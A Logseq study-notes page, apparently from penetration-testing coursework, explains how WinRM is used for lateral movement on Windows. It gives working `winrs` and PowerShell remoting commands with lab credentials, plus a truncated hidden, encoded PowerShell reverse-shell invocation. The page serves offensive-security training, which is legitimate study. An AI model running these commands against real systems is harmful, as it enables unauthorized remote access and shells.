 public:: true

- [WinRM](https://learn.microsoft.com/en-us/windows/win32/winrm/portal) is the Microsoft version of the [*Web Services-Management*](https://en.wikipedia.org/wiki/WS-Management) (WS-Management) open standard protocol.
- It establishes a session with a remote computer through the SOAP-based WS-Management protocol rather than a connection through [[DCOM]] , as [[WMI]] does. Data returned using the WS-Management protocol is formatted in XML instead of as objects.
- #+BEGIN_IMPORTANT
  It exchanges XML messages over HTTP and HTTPS. For that it uses **TCP port 5986 for encrypted HTTPS traffic** and **port 5985 for plain HTTP**.
  #+END_IMPORTANT
- You can use WinRM in different flavors: Powershell, [`winrs`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/winrs) or [`evil-winrm`](https://github.com/Hackplayers/evil-winrm) in linux
- #+BEGIN_IMPORTANT
  In order to connect via WinRM, the target user needs to be part of the **Administrators** or **Remote Management Users** group on the target host.
  #+END_IMPORTANT
- Let's see how to use `winrs` to run the `whoami` command on a remote target logging as user *jen*.
	- ```cmd
	  winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c whoami"
	  ```
	- As [already shown](((65a01d55-0fd2-4bbd-9251-edd80b50bbb9))) in [[WMI]], we can instead use it to get a reverse shell.
	  ```cmd
	  winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAG...G4AdAAuAEMAbABvAH"
	  ```
- PowerShell also has WinRM built-in capabilities called [*PowerShell remoting*](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.4). Let's see how to use it to access a remote shell.
	- First, we need to create a [PSCredential](https://learn.microsoft.com/en-us/powershell/scripting/learn/deep-dives/add-credentials-to-powershell-functions?view=powershell-7.2) object to store the domain user credentials that we use to access the remote target.
	  logseq.order-list-type:: number
		- ```powershell
		  $username = 'jen';
		  $password = 'Nexus123!';
		  $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
		  $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
		  ```
	- Next, we can point the [*New-PSSession*](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7.4) cmdlet to the target machine and pass the PSCredential object.
	  logseq.order-list-type:: number
		- ```powershell
		  New-PSSession -ComputerName 192.168.50.73 -Credential $credential
		  ```
	- At this point a new *PSSession* would be available and we can enter it to interact with the remote shell.
	  logseq.order-list-type:: number
		- ```powershell
		  Enter-PSSession 1
		  ```